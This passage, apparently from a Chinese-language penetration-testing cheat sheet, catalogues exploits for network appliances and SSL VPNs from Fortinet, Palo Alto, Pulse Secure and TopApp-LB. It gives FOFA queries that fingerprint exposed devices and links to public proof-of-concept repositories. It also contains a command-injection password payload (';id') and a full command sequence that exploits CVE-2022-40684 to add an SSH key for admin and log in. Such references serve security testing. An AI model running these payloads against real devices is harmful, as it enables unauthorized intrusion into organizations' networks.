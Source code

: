 **RCE**
- POC | Payload | exp
    - [天融信TopApp-LB负载均衡命令执行漏洞大量设备可被通杀](https://www.uedbox.com/post/22193/)
        ```
        用户名随意  密码：;id
        ```

---

### VPN

#### Fortigate SSL VPN

> fofa: icon_hash="-404383634"
> app="FORTINET-防火墙"

**CVE-2018-13379 Fortigate SSL VPN 密码读取**
- POC | Payload | exp
    - [milo2012/CVE-2018-13379](https://github.com/milo2012/CVE-2018-13379)

**CVE-2018-13382 Fortigate SSL VPN 任意密码重置**
- POC | Payload | exp
    - [milo2012/CVE-2018-13382](https://github.com/milo2012/CVE-2018-13382)

**CVE-2022-40684 FortiOS Authentication Bypass**
- 相关文章
    - [FortiOS, FortiProxy, and FortiSwitchManager Authentication Bypass Technical Deep Dive (CVE-2022-40684)](https://www.horizon3.ai/fortios-fortiproxy-and-fortiswitchmanager-authentication-bypass-technical-deep-dive-cve-2022-40684/)

- POC | Payload | exp
    - [horizon3ai/CVE-2022-40684](https://github.com/horizon3ai/CVE-2022-40684)
        ```
        git clone https://github.com/horizon3ai/CVE-2022-40684.git
        cd CVE-2022-40684
        ssh-keygen -t rsa
        python3 CVE-2022-40684.py -t 1.1.1.1 --username admin --key-file ~/.ssh/id_rsa.pub
        ssh admin@1.1.1.1
        ```

#### Palo Alto SSL VPN

**CVE-2019-1579 Palo Alto GlobalProtect 远程代码执行漏洞**
- 相关文章
    - [Orange: Attacking SSL VPN - Part 1: PreAuth RCE on Palo Alto GlobalProtect, with Uber as Case Study!](https://blog.orange.tw/2019/07/attacking-ssl-vpn-part-1-preauth-rce-on-palo-alto.html)
    - [Palo Alto GlobalProtect上的PreAuth RCE](https://www.cnblogs.com/backlion/p/11209054.html)

- POC | Payload | exp
    - [securifera/CVE-2019-1579](https://github.com/securifera/CVE-2019-1579)

#### Pulse Secure SSL VPN

**CVE-2019-11510 Pulse Secure SSL VPN 任意文件读取漏洞**
- 相关文章
    - [Pulse Secure 任意文件读取（CVE-2019-11510）漏洞](https://www.cnblogs.com/StudyCat/p/11440991.html)
